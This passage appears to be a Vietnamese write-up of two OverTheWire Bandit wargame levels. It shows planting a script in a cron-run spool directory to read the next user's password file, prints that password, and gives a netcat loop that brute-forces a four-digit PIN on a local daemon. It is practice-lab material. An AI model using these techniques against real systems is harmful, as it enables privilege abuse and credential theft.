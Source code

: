 Với đoạn `bash script` ta thấy được thì nó sẽ xoá các thư mục trong `/var/spool/bandit24/foo` vì lúc này nó chạy với quyền của user `bandit24`. Điều kiện `if` sẽ check mỗi file mà nó chạy qua có nằm trong thư mục đặc biệt như là `.` hay `..` không. Và điều kiện `if` thứ 2 nằm bên trong đó sẽ check xem file đó có phải của user `bandit23` hay không, và nếu có nó sẽ thực thi lệnh bên trong `if` đó và sau đó xoá file đó đi

Vì ta biết rằng mỗi file sẽ được thực thi với quyền của `bandit24` và khi thực thi xong trong 60s nó sẽ xoá tệp đó đi. Như vậy việc ta sẽ làm là viết một file bash script và đặt nó trong `/var/spool/bandit24/foo`

```sh
bandit23@bandit:~$ cd /tmp
bandit23@bandit:/tmp$ mktemp -d
/tmp/tmp.lLRyk9z2Ce
bandit23@bandit:/tmp$ cd /tmp/tmp.lLRyk9z2Ce
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ chmod 777 /tmp/tmp.lLRyk9z2Ce
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ touch script.sh
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ vim script.sh
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ touch password.txt
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ chmod 777 password.txt
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ cat script.sh
#!/usr/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.lLRyk9z2Ce/password.txt
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ cp script.sh /var/spool/bandit24/foo/password_script.sh
bandit23@bandit:/tmp/tmp.lLRyk9z2Ce$ cat password.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

# Level 24 -> Level 25

## Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Solution

Theo như đề bài thì lần này ta cần phải viết một bash script để brute force các number và các number này mình nghĩ nó chạy từ 0000 -> 9999 và sau đây là cách giải của mình

```sh
bandit24@bandit:~$ cd /tmp
bandit24@bandit:/tmp$ mktemp -d
/tmp/tmp.OP4szua1PC
bandit24@bandit:/tmp$ cd /tmp/tmp.OP4szua1PC
bandit24@bandit:/tmp/tmp.OP4szua1PC$ chmod 777 /tmp/tmp.OP4szua1PC
bandit24@bandit:/tmp/tmp.OP4szua1PC$ touch brute.sh
bandit24@bandit:/tmp/tmp.OP4szua1PC$ chmod 777 brute.sh
bandit24@bandit:/tmp/tmp.OP4szua1PC$ nano brute.sh
bandit24@bandit:/tmp/tmp.OP4szua1PC$ cat brute.sh
#!/usr/bin/sh

for i in {0000..9999}

do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> output.txt
done

cat output.txt | nc localhost 30002 > result.txt
bandit24@bandit:/tmp/tmp.OP4szua1PC$ ./brute.sh
bandit24@bandit:/tmp/tmp.OP4szua1PC$ cat result.txt | grep "is"
```